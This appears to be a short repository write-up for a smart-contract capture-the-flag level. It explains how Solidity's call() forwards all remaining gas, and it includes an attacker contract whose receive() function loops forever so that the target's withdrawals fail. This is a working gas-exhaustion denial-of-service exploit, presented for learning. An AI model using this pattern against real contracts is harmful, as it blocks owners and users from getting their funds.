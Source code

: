 ## Description
An interesting fact about call() function is that it forwards the entire gas along with the call, if no gas value is specified in the call.

-call and send: Both methods return false if they fail and do not raise an exception. This allows the execution of the function to continue.
-transfer: Causes an exception and rolls back the transaction if it fails.

```
contract Lock{
    Denial public denial;

    function setDenial(address payable _denial) public {
        denial = Denial(_denial);
    }

    function setWithdrawPartner (address _partner) public {
        denial.setWithdrawPartner(_partner);
    }

    function withdraw () public{
        denial.withdraw();
    }

    receive() external payable {
        while (true){}
    }
}
```